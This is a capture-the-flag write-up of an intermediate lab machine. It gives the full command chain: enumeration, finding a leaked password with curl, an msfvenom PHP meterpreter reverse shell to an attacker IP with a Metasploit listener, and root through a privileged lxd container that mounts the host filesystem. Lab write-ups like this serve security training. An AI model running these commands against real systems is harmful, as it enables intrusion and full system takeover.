



**Level: **Intermediate

**Task:** find **user.txt** and **root.txt** file on victim’s machine.

Since these labs are online available therefore they have static IP and IP of sense is **10.10.10.27** so let’s begin with nmap port enumeration.

From given below image, you can observe we found port 22 and 80 are open in victim’s network.

As port 80 is running HTTP on the target machine, so we open the IP address in our browser.

We don’t find anything on the homepage so we use dirb to enumerate the directories.

Now we open admin.php, and find a login page. We take a look at the source page but we don’t find anything.

When we use curl to access the page we find a password commented in the HTML page.

curl  \-v  http://10.10.10.27/admin.php

We try the username admin and the password we find on the page to login to the page. We then get access to a page that allows us to run php code in it.

We first try to execute normal PHP payload but are unable to get a stable tty shell, so we use base64 encoded php shell to exploit this web application. We generate a base64 encoded shell using metasploit.

msfvenom  \-p  php/meterpreter/reverse\_tcp lhost\=10.10.14.3  lport\=4444  \-e  php/base64  \-f  raw

We paste this shell in the target machine’s page between **<?php ?>** tag.

We setup our listener using metasploit to get reverse shell. As soon as we run our shell on the page we get the reverse shell.

msf  \>  use  exploit/multi/handler

msf exploit(multi/handler)  \>  set payload php/meterpreter/reverse\_tcp

msf exploit(multi/handler)  \>  set lhost  10.10.14.3

msf exploit(multi/handler)  \>  set lport  4444

msf exploit(multi/handler)  \>  exploit

After getting reverse shell we enumerate through the directories, in **/home/xalvas** we find a file called user.txt. When we open user.txt we find our first flag.

We also find a file called recov.wav; we download it to our system to gain further information.

download recov.wav  /root/Desktop

We go to alarmclocks directory inside the xalvas directory and find 1 mp3 and 1 wav file. We download both files into our system.

download rick.wav  /root/Desktop/

download xouzouris.mp3  /root/Desktop/

We use a tool called audacity to perform steganography on the audio files. Listening to the audio we find 2 of them sound similar. We load recov.wav and rick.wav into audacity, invert rick.wav then export the combination of both. After combining both the files we find a password in the audio “**18547936..\***”

We use the username as xalvas and password that we found in the audio file to log in through ssh into the target machine. When we run id command we find that the user is added in lxd group.

As lxd is a container technology we can run processes as root using lxd. To exploit this we download “lxd alpine builder” to create an image of alpine Linux.

git clone  https://github.com/saghul/lxd-alpine-builder.git

Now create a 32-bit Alpine Linux image using lxd alpine builder.

We send the Linux image to the target machine using scp.

scp alpine\-v3.7\-i686\-20180405\_0501.tar.gz  xalvas@10.10.10.27:

We go to the target machine and import the Linux image and create an image called ignite with administrative privileges.

mkdir raj

mv   alpine\-v3.7\-i686\-20180405\_0501.tar.gz  raj

lxc image import alpine\-v3.7\-i686\-20180405\_0501.tar.gz  \--alias alpine

lxc image list

lxc init alpine ignite  \-c  security.privileged\=true

We mount the whole filesystem into the container; we start the container and execute the shell the shell inside. After spawning the shell we open root.txt in /mnt/root/root directory and find the final flag.

lxc config device add ignite mydevice mydevice disk source\=/  path\=/mnt/root recursive\=true

lxc start ignite

lxc exec ignite  /bin/sh

